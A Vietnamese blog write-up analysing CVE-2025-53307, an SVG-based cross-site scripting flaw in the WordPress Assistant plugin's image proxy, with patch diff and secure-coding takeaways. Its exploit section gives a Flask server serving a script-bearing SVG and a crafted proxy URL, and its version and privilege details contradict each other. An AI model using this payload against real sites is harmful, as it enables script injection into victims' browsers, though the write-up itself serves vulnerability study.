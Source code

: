 ```yaml
---
title: CVE-2025-53307 Analysis & POC
description: Security Vulnerability in WordPress Assistant Plugin.
date: 2025-10-03 19:19:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, xss]
weight: 1
images: []
featuredImage: "app.png"

lightgallery: true

toc:
auto: false
---
```


---

Lỗ hổng xảy ra trên plugin **Assistant** của WordPress trước phiên bản **3.6.2**. Điều này có thể cho phép kẻ tấn công chèn mã độc (ví dụ: script chuyển hướng, quảng cáo, hoặc các payload HTML khác) vào website, và những mã đó sẽ được thực thi khi khách truy cập mở trang.

* **CVE ID**: [CVE-2025-53307](https://www.cve.org/CVERecord?id=CVE-2025-53307)
* **Product**: [WordPress Assistant Plugin](https://wordpress.org/plugins/assistant/)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 1.5.2
* **CVSS severity**: Medium (7.1)
* **Required Privilege**: Unauthenticated

---

## Requirements

* [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
* **Assistant**:  v1.5.2(vul) và v1.5.3(fix)
* **diff tool**: **meld** hoặc bất cứ tool nào có thể compare để thấy được sự khác biệt giữa 2 version

---

## Analysis

Ứng dụng hiển thị trực tiếp nội dung hình ảnh do người dùng cung cấp thông qua URL **mà không xác thực và kiểm tra đầy đủ MIME type**. Điều này dẫn đến việc kẻ tấn công có thể cung cấp một tập tin giả dạng hình ảnh và khi được trình duyệt xử lý, nó sẽ thực thi mã độc => gây ra lỗ hổng XSS.

### Patch Diff

Dùng diff tool bất kì để so sánh sự khác biệt giữa bản lỗi và bản vá.

![Patch Diff](patch_diff.png "Diff giữa bản lỗi và bản vá")

Trong trường hợp này, sự khác biệt giữa 2 phiên bản khá nhiều, để thuận lợi cho việc truy vết, ta có thể xem [change log](https://wordpress.org/plugins/assistant/#developers) để biết bản vá lỗ hổng XSS ở đâu:

```
Changelog
1.5.3 ( 2025-09-08 )

- Changes to support the integration of Assistant in Beaver Builder version 2.10
- Fixed dark mode issues on the Home app and sidebar.
- Security: Fixed a potential XSS vulnerability in the "image proxy"
```

👉 Lỗ hỗng nằm trong file **backend/src/Hooks/ImageProxy.php**, ta quan sát sự khác biệt của 2 phiên bản:

![Patch Diff 1](patch_diff1.png "Sự khác biệt trong hàm render_image của ImageProxy.php")

Sự thay đổi xảy ra ở hàm `render_image` với chức năng:

* Nhận tham số url từ query string `($_GET['url'])`.
* Gửi request từ server đến URL đó để tải nội dung.
* Chống **ssrf** bằng `wp_safe_remote_get`.
* Nếu nội dung có header **Content-Type** bắt đầu bằng `image/`, thì:

  * Gửi lại header **Content-Type** đó cho client.
  * In (echo) toàn bộ nội dung file ra cho trình duyệt.
* Trình duyệt hiển thị hình ảnh **không phải trực tiếp từ nguồn gốc mà thông qua server WordPress**.

> SVG cũng có **Content-Type** bắt đầu bằng `image/` và có thể chứa mã JavaScript bên trong => XSS có thể xảy ra.

Bản vá đã thêm một lớp kiểm tra **MIME type** thực sự của file để tránh kịch bản XSS bằng SVG hay file giả mạo.

```php
$filesystem = self::filesystem();
$tmpfile    = tempnam( '/tmp', 'assistant' );
$filesystem->put_contents( $tmpfile, $body );
$validimage = wp_get_image_mime( $tmpfile );
$filesystem->delete( $tmpfile );

if ( ! $validimage ) {
    return false;
}
```

[`wp_get_image_mime()`](https://github.com/WordPress/wordpress-develop/blob/6.8.2/src/wp-includes/functions.php#L3330-L3417) sử dụng hàm xử lý ảnh nội bộ (dựa trên dữ liệu binary của file) để xác định MIME thực sự.

Nếu kết quả không phải là ảnh hợp lệ => return **false**.

### How it work?

Trong `__construct` của class `ImageProxy`, phương thức `render_image()` được gọi thông qua callback của action hook `'init'`. Hook `'init'` được thực thi rất sớm trong quá trình load WordPress, sau khi các đối tượng core được khởi tạo nhưng trước khi gửi output ra trình duyệt.

`render_image` chỉ được gọi khi người dùng hiện tại có quyền chỉnh sửa bài viết của người khác và tham số `$_GET['fl_asst_image_proxy']` tồn tại.

👉 Khi truy cập `/wp-admin/?fl_asst_image_proxy=value1&url=http://yoursite/image-path` thì `render_image` sẽ được gọi và trả về nội dung hình ảnh cho trình duyệt hiển thị.

---

## Exploit

### Detect XSS

Tạo 1 trang [web](https://github.com/w41bu1/w41test) đơn giản trả về nội dung SVG chứa XSS payload

```py
from flask import Flask, Response

app = Flask(__name__)

@app.route('/')
def home():
    return 'Hello, World!'

@app.route('/svg')
def about():
    svg = """<?xml version="1.0" encoding="UTF-8"?>
    <svg xmlns="http://www.w3.org/2000/svg">
        <script>alert(document.domain)</script>
    </svg>"""
    return Response(svg, mimetype="image/svg+xml")
```

Gửi request chứa **url param** trỏ đến `https://yoursite/svg`

```
http://localhost/wp-admin/?fl_asst_image_proxy=abc&url=https://yoursite/svg
```

👉 Thành công với `Unauthenticated` vì chỉ cần người dùng có quyền, khi truy cập url => XSS xảy ra trên trình duyệt của nạn nhân. Attacker không cần đăng nhập.

![Detect](detect.png "SVG chứa XSS payload được hiển thị qua image proxy")

---

## Conclusion

Lỗ hổng **CVE-2025-53307** trong plugin WordPress Assistant (**<= v1.5.2**) cho phép XSS thông qua `render_image()` vì không kiểm tra **MIME type** thực của file. Bản vá **v1.5.3** đã khắc phục bằng cách xác thực nội dung file trước khi trả về trình duyệt.

**Key takeaways**:

* Không tin cậy vào **Content-Type header** từ **HTTP response**.
* Luôn xác thực **MIME type** thực sự của file.

---

## References

[Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress WordPress Assistant Plugin <= 1.5.2 is vulnerable to Cross Site Scripting (XSS)](https://patchstack.com/database/wordpress/plugin/assistant/vulnerability/wordpress-assistant-plugin-1-5-2-cross-site-scripting-xss-vulnerability)

---
